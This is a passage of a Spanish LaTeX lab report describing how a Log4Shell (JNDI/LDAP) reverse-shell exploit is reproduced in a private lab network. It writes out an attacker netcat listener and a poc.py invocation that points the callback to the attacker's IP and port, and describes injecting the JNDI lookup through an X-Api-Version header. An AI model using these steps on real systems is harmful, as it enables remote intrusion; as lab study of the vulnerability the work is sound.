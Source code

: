 \documentclass[../main.tex]{subfiles}
\begin{document}
Los pasos que se han seguido para lograrlo son los siguientes:
\begin{enumerate}
    \item En un terminal en la máquina del atacante (IP \it{192.168.56.1}) se ejecuta \it{netcat} escuchando en el puerto \it{12345}:
          
          \begin{codigo}{shell}
ncat -lp 12345
\end{codigo}
    
    \item En un terminal en la máquina \it{Kali} (IP \it{192.168.56.100}) se lanza el script \it{poc.py}:
          
          \begin{codigo}{shell}
./poc.py --serversip 192.168.56.100 \
         --webport 8000 \
         --ncip 192.168.56.1 \ 
         --ncport 12345
\end{codigo}
          
          El resultado será el siguiente:
          \begin{figure}[H]
          \centering
          \includegraphics[width=13.5cm]{imagenes/4-ReverseShell/exploit_startup.png}
          \end{figure}
          
          Es decir, se habrá generado y compilado la clase \it{Exploit.java}, en cuyo código se habrá sustituido las variables \it{host} y \it{port} por \it{192.168.56.1} y \it{12345} respectivamente (IP y puerto en los cuales se ha lanzado en el anterior paso \it{netcat} en la máquina del atacante), y por otro lado, en la IP \it{192.168.56.100} se han lanzado el \it{marshaller} del protocolo LDAP (en el puerto \it{1389}) y el servidor HTTP (en el puerto \it{8000})
          
          Además, al lanzar esos servicios, el script ha generado un mensaje indicando el \it{lookup} del API \it{JNDI} que debe introducirse en el log para generar la carga de la clase \it{Exploit} allí donde se ejecute 
    
    \item Por último, en otro terminal en la máquina del atacante, se ejecuta el comando \it{curl}, dando como valor al campo \it{X-Api-Version} el indicado por el exploit
          

\end{enumerate}
\end{document}
